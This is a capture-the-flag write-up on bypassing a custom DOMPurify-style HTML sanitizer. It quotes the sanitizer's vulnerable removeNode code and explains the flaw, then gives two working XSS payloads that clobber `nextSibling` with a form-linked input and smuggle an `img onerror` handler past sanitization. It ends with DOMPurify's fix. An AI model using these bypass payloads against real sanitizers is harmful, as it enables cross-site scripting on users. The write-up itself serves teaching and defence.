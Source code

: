 ## Chall -- [Kevin Mizu](https://twitter.com/kevin_mizu)
#### `DOM Clobbering` and `XSS`

In this challenge, the author developed a webpage to sanitize XSS payloads. For this goal, the webpage sanitizes attacker inputs by utilizing code snippets from the DOM Purify project in conjunction with the tags specified within the Chromium code.

In my case, what I attempted was to search for any discrepancies between the code utilized and the most recent commits in both projects. Unfortunately, I was unable to find a solution for the challenge at that time. So, I'm writing this writeup after checking the [author solution](https://twitter.com/kevin_mizu/status/1701922141791211776) and learning how the exploit works.

#### Code Analysis

As the author explains in his twitter in the following code snippets is the key for the chall.

```javascript
    // Code of `sanitizer.js`
    sanitize = (input) => {
        // Step 1: Convert the Attacker string to a DOM Tree using DOM Parser API.
        let currentNode;
        var dom_tree = new DOMParser().parseFromString(input, "text/html");

        // Step 2: Create an iterator for the nodes.
        var nodeIterator = document.createNodeIterator(dom_tree);

        while ((currentNode = nodeIterator.nextNode())) {

            // Step 3: Sanitize the node
            // avoid DOMClobbering
            if (this._isClobbered(currentNode) || typeof currentNode.nodeType !== "number") {
                this.removeNode(currentNode);
                continue;
            }

            switch(currentNode.nodeType) {
                case currentNode.ELEMENT_NODE:
                    var tag_name   = currentNode.nodeName.toLowerCase();
                    var attributes = currentNode.attributes;

                    // avoid mXSS
                    if (currentNode.namespaceURI !== "http://www.w3.org/1999/xhtml") {
                        this.removeNode(currentNode);
                        continue;

                    // sanitize tags
                    } else if (!this.ALLOWED_TAGS.includes(tag_name)){
                        this.removeNode(currentNode);
                        continue;
                    }

                    // sanitize attributes
                    for (let i=0; i < attributes.length; i++) {
                        if (!this.ALLOWED_ATTS.includes(attributes[i].name)){
                            this.removeNode(currentNode);
                            continue;
                        }
                    }
            }
        }

        // Step 4: return the `safe` string
        return dom_tree.body.innerHTML;
    }
```

If the node that we are checking (e.g. `<img>`) has any illegal behavior (tag, attribute..) it basically calls the function to remove that node. 

```javascript
    removeNode = (currentNode) => {
        const parentNode = currentNode.parentNode;
        const childNodes = currentNode.childNodes;

        if (childNodes && parentNode) {
            const childCount = childNodes.length;

            for (let i = childCount - 1; i >= 0; --i) {
                parentNode.insertBefore(
                    childNodes[i].cloneNode(),
                    currentNode.nextSibling    // Here is the DOM Clobbering
                );
            }
        }

        currentNode.parentElement.removeChild(currentNode);
    }
```

#### Chall Solution 

The solution for the challenge consist in clobbering the `nextSibling` attribute in the `removeNode` function. In other words, the idea is to clobber the `nextSibling` with a previous element in order to avoid the sanitization of our payload. We avoid the sanitization because instead of adding the node (a.k.a payload) before the following node (a.k.a `nextSibling`) that is going to be checked, we are moving it before a node that was checked. So, in the next iterator node, the childNodes would be gone. In the following code, the author presents the solution.

```html
<input form="f" name="nextSibling">
<form id="f"> 
    <input name="textContent">
    <img src="x" onerror="alert()">
</form>
```

In this code snippet, as you see, we are clobbering the `nextSibling` with the first input and the form. After that, we need to add the payload inside the form, so that, in the moment of removing the node (`form`), the function will add the child nodes (`input2` and `img`) to `nextSibling` (because of the clobber, `input1`). Doing that, our payload `img` would avoid the sanitization. The second `input` is used to provoke the error in the `form`.

![fig1](./figs/1.png)
![fig1](./figs/2.png)

I present a similar solution, that could be more clear because we avoid the second `input` provoking the error in the `form` using the attribute `onload`.

```html
<input form="f" name="nextSibling">
<form id="f" onload> 
    <img src="x" onerror="alert()">
</form>
```

Recap: Thanks to the DOM Clobbering of `nextSibling`, we avoid that our payload, inside a `form`, gets sanitizated. 


#### Fix the vuln 

If we check the `DOMPurify` project we can see that they have some checks to see if `nextSibling` is clobbered ([github](https://github.com/cure53/DOMPurify/blob/main/src/purify.js#L117)).

```javascript
const getNextSibling = lookupGetter(ElementPrototype, 'nextSibling');
// ...

    parentNode.insertBefore(
      cloneNode(childNodes[i], true),
      getNextSibling(currentNode)
    );
```

I encourage the reader to explore how the clobbering protection works. I made the fix for avoiding the clobbering in the `src_fixed` folder.

#### Useful refs:
- [DOMParser API](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser). 
- [DOMPurify repo](https://github.com/cure53/DOMPurify/blob/main/src/purify.js) by Cure53.

